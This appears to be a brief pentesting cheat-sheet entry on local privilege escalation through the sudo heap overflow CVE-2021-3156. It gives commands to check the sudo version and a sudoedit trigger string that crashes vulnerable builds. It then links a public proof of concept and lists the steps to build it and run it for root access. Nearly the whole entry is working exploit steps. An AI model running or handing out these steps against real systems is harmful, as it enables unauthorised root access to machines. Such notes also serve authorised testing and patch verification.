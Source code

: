 # Sudo old version
https://medium.com/mii-cybersec/privilege-escalation-cve-2021-3156-new-sudo-vulnerability-4f9e84a9f435
```bash
sudo -V
# 1.8.31

sudoedit -s '123123123123123\'
sudoedit –s '123123123123\'
# halloc():invalid size
```

# Use known poc

https://github.com/blasty/CVE-2021-3156

```bash
make

./sudo-hax-me-a-sandwich 0
```
